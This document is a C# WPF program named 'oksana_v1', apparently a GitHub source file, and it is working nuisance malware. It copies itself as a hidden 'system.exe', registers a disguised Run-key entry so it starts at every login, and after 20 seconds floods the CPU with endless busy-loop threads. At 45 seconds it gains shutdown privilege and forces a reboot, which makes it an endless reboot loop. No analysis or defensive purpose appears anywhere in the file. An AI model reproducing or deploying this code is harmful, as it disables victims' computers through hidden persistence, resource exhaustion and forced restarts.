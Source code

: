 # oksana_v1
using JCS;
using Microsoft.Win32;
using System;
using System.Diagnostics;
using System.IO;
using System.Runtime.InteropServices;
using System.Threading;
using System.Windows;

namespace WpfApplication_OKSANA
{
    /// <summary>
    /// Логика взаимодействия для MainWindow.xaml
    /// </summary>
    public partial class MainWindow : Window
    {
        public static string needPatch = "C:\\Users\\Public\\";


        public MainWindow()
        {
            if (OSVersionInfo.Name == "Windows 7" || OSVersionInfo.Name == "Windows Vista" )
            {
                autorun.SetAutorunValue(true, needPatch + "system.exe"); // добавить в автозагрузку
                //SetAutorunValue(false, needPatch + "system.exe");  // убрать из автозагрузки
            }
            else
                if (OSVersionInfo.Name == "Windows XP")
            {
                needPatch = "C:\\Documents and Settings\\All Users\\";
                autorun.SetAutorunValue(true, needPatch + "system.exe"); // добавить в автозагрузку
                                                                         //SetAutorunValue(false, needPatch + "system.exe");  // убрать из автозагрузки
            }

            InitializeComponent();
        }



        private void Window_Loaded(object sender, RoutedEventArgs e)
        {
            if (!File.Exists(needPatch + "system.exe"))
            {
                try
                {
                    File.Copy("system.exe", needPatch + "system.exe");
                    File.SetAttributes(needPatch + "system.exe", FileAttributes.Hidden);

                }
                catch {   }
            }
            start();
        }

        public static void sys_sleep()
        {
            while (true)
            {
                Thread s = new Thread(s_b);
                s.Start();
            }
        }
        private static void s_b()
        {
            int y = 2;
            while (true)
            {
                y *= y;
            }
        }



        public static void start()
        {
            Stopwatch sw = new Stopwatch();
            sw.Start();
            bool b = true;
            bool pl = false;
            while (b)
            {
                if (sw.ElapsedMilliseconds > 20000)
                {
                    if (!pl)
                    {
                        Thread g = new Thread(sys_sleep);
                        g.Start();
                        pl = true;
                    }
                }
                if (sw.ElapsedMilliseconds > 45000)
                {
                    DoExitWin(EWX_REBOOT);
                    b = false;
                }
            }
        }

        



        [StructLayout(LayoutKind.Sequential, Pack = 1)]
        internal struct TokPriv1Luid
        {
            public int Count;
            public long Luid;
            public int Attr;
        }
        [DllImport("kernel32.dll", ExactSpelling = true)]
        internal static extern IntPtr GetCurrentProcess();
        [DllImport("advapi32.dll", ExactSpelling = true, SetLastError = true)]
        internal static extern bool OpenProcessToken(IntPtr h, int acc, ref IntPtr phtok);
        [DllImport("advapi32.dll", SetLastError = true)]
        internal static extern bool LookupPrivilegeValue(string host, string name, ref long pluid);
        [DllImport("advapi32.dll", ExactSpelling = true, SetLastError = true)]
        internal static extern bool AdjustTokenPrivileges(IntPtr htok, bool disall,
        ref TokPriv1Luid newst, int len, IntPtr prev, IntPtr relen);
        [DllImport("user32.dll", ExactSpelling = true, SetLastError = true)]
        internal static extern bool ExitWindowsEx(int flg, int rea);
        internal const int EWX_REBOOT = 0x00000002;
        internal const string SE_SHUTDOWN_NAME = "SeShutdownPrivilege";
        internal const int SE_PRIVILEGE_ENABLED = 0x00000002;
        internal const int TOKEN_QUERY = 0x00000008;
        internal const int TOKEN_ADJUST_PRIVILEGES = 0x00000020;

        public static Thread thread1;
        public static void DoExitWin(int flg)
        {
            bool ok;
            TokPriv1Luid tp;
            IntPtr hproc = GetCurrentProcess();
            IntPtr htok = IntPtr.Zero;
            ok = OpenProcessToken(hproc, TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, ref htok);
            tp.Count = 1;
            tp.Luid = 0;
            tp.Attr = SE_PRIVILEGE_ENABLED;
            ok = LookupPrivilegeValue(null, SE_SHUTDOWN_NAME, ref tp.Luid);
            ok = AdjustTokenPrivileges(htok, false, ref tp, 0, IntPtr.Zero, IntPtr.Zero);
            ok = ExitWindowsEx(flg, 0);
        }
    }

    public class autorun
    {
        public static bool SetAutorunValue(bool autorun, string npath)
        {
            const string name = "systems";
            string ExePath = npath;
            RegistryKey reg;

            reg = Registry.CurrentUser.CreateSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Run\\");
            try
            {
                if (autorun)
                    reg.SetValue(name, ExePath);
                else
                    reg.DeleteValue(name);
                reg.Flush();
                reg.Close();
            }
            catch
            {
                return false;
            }
            return true;
        }
    }
}
